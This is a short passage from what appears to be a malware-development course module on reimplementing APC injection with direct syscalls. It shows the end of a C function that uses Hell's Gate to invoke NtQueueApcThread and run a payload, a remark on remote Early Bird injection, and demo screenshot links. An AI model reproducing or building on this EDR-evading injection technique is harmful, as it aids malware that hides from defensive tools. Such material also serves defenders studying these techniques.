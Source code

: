 ```
	printf("\t[i] Running Payload At 0x%p Using Thread Of Id : %d ... ", pAddress, GetThreadId(hThread));
	HellsGate(pVxTable->NtQueueApcThread.wSystemCall);
	if ((STATUS = HellDescent(hThread, pAddress, NULL, NULL, NULL)) != 0) {
		printf("[!] NtQueueApcThread Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");


	return TRUE;
}

```
### **Remote Injection**

It's possible to use the `ApcInjectionViaSyscalls` function for remote process injection but to do so a suspended process must be created. This approach was discussed in the *Early Bird APC Queue Code Injection* module.

### **Demo**

Using SysWhispers implementation.

[![](69%20Syscalls%20-%20Reimplementing%20APC%20Injection%204134d6cae4f8487384888ad519adc700/syscall-apc-114387928-a6054f8c-8590-49cb-a97e-6eb4d7e2870e.png)](69%20Syscalls%20-%20Reimplementing%20APC%20Injection%204134d6cae4f8487384888ad519adc700/syscall-apc-114387928-a6054f8c-8590-49cb-a97e-6eb4d7e2870e.png)Using Hell's Gate implementation.

[![](69%20Syscalls%20-%20Reimplementing%20APC%20Injection%204134d6cae4f8487384888ad519adc700/syscall-apc-214388088-5de280c3-8fd2-4546-9127-c058c373757b.png)](69%20Syscalls%20-%20Reimplementing%20APC%20Injection%204134d6cae4f8487384888ad519adc700/syscall-apc-214388088-5de280c3-8fd2-4546-9127-c058c373757b.png)